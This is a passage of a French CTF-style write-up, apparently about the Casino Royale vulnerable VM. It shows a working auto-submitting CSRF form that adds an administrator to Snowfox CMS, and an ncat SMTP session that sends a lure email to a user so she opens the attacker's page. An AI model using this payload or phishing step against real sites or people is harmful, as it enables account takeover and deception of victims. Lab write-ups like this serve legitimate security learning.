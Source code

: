Ça tombe bien, car le port SMTP est ouvert.

Cette fois, c'est une faille de Cross Site Request Forgery qu'il faut exploiter, la zone d'administration n'étant apparemment pas protégée par un quelconque token :

[Snowfox CMS 1.0 - Cross-Site Request Forgery (Add Admin) - PHP webapps Exploit](https://www.exploit-db.com/exploits/35301)

J'ai repris le code d'exemple du PoC et l'ai adapté avec un auto-submit :

```html
<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST" name="myform">
      <input type="hidden" name="emailAddress" value="haxor@mail.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="haxor@mail.com" />
      <input type="hidden" name="newPassword" value="haxor@mail.com" />
      <input type="hidden" name="confirmPassword" value="haxor@mail.com" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
    <script>document.myform.submit();</script>
  </body>
</html>
```

Il faut ensuite inviter l'utilisatrice à visiter la page où l'on héberge le code HTML :

```console
$ ncat casino-royale.local 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.242.129:25.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
HELO casino.localdomain
250 casino.localdomain
MAIL FROM: haxor
250 2.1.0 Ok
RCPT TO: valenka
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
subject: fisher recomended you
pls check my website
http://192.168.242.1/
.
250 2.0.0 Ok: queued as 5EB711EC1
QUIT
221 2.0.0 Bye
```
